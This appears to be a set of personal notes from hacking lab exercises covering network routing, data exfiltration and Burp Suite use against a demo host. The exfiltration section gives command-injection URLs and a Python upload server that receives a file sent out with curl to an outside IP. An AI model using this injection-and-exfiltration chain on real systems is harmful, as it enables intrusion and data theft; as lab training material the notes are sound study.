 ------------

**Secret Server**
```bash
ip a s
route
ip route add ip/24 via ip
route
ping ip
```

------------

**Data Exfiltration**
```bash
nmap demo.ine.local
http://demo.ine.local:8000?cmd=pwd
http://demo.ine.local:8000?cmd=ls+-l
http://demo.ine.local:8000?cmd=curl+-h
ifconfig
```
```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

```bash
python server.py 80
http://demo.ine.local:8000?cmd=curl+192.77.184.2+--upload-file+flag.zip
ls -l
unzip flag.zip
cat flag/flag.txt
```

------------

**Burp Suite Basics**
Used: /usr/share/wordlists/dirb/common.txt
```bash
ping demo.ine.local
nmap demo.ine.local
burpsuite
```
Used burp suite to analyze traffic with proxy via foxy proxy.
Used enumeration attack, I would use Dirb or Dirbuster for this.
Used password attack.
Made specific get requests to access files found through enumeration.
